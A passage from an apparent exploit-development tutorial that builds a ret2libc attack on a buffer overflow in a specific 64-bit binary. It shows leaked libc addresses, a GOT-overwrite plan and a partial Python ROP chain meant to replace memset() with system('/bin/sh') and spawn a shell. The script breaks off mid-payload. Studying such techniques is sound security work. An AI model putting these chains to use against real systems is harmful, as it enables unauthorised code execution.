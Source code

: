 And here it is in action:

```
# ./poc.py
Enter input:
Recv:
memset() is at 0x7f9d206e45c0
libc base is 0x7f9d20658000
system() is at 0x7f9d2069e640

```

Now that we can get any library function address, we can do a ret2libc to complete the exploit. We'll overwrite memset()'s GOT entry with the address of system(), so that when we trigger a call to memset(), it will call system("/bin/sh") instead. Here's what we need to do:

1. Overwrite memset()'s GOT entry with the address of system() using read@plt. 
1. Write "/bin/sh" somewhere in memory using read@plt. We'll use 0x601000 since it's a writable location with a static address.
1. Set RDI to the location of "/bin/sh" and return to system(). 

Here's the final exploit:

```python
#!/usr/bin/env python

import telnetlib
from socket import *
from struct import *

write_plt  = 0x400540            # address of write@plt
read_plt   = 0x400580            # address of read@plt
memset_plt = 0x400570            # address of memset@plt
memset_got = 0x601030            # memset()'s GOT entry
memset_off = 0x08c5c0            # memset()'s offset in libc.so.6
system_off = 0x046640            # system()'s offset in libc.so.6
pop3ret    = 0x4006a1            # gadget to pop rdi; pop rsi; pop rdx; ret
writeable  = 0x601000            # location to write "/bin/sh" to

# leak memset()'s libc address using write@plt
buf = ""
buf += "A"*168                  # padding to RIP's offset
buf += pack("<Q", pop3ret)      # pop args into registers
buf += pack("<Q", 0x1)          # stdout
buf += pack("<Q", memset_got)   # address to read from
buf += pack("<Q", 0x8)          # number of bytes to write to stdout
buf += pack("<Q", write_plt)    # return to write@plt

# payload for stage 1: overwrite memset()'s GOT entry using read@plt
buf += pack("<Q", pop3ret)      # pop args into registers
buf += pack("<Q", 0x0)          # stdin
buf += pack("<Q", memset_got)   # address to write to
buf += pack("<Q", 0x8)          # number of bytes to read from stdin
buf += pack("<Q", read_plt)     # return to read@plt

# payload for stage 2: read "/bin/sh" into 0x601000 using read@plt
buf += pack("<Q", pop3ret)      # pop args into registers
buf += pack("<Q", 0x0)          # junk
buf += pack("<Q", writeable)    # location to write "/bin/sh" to
buf += pack("<Q", 0x8)          # number of bytes to read from stdin
buf += pack("<Q", read_plt)     # return to read@plt

# payload for stage 3: set RDI to location of "/bin/sh", and call system()
buf += pack("<Q", pop3ret)      # pop rdi; ret
buf += pack("<Q", writeable)    # address of "/bin/sh"
buf += pack("<Q", 0x1)          # junk
```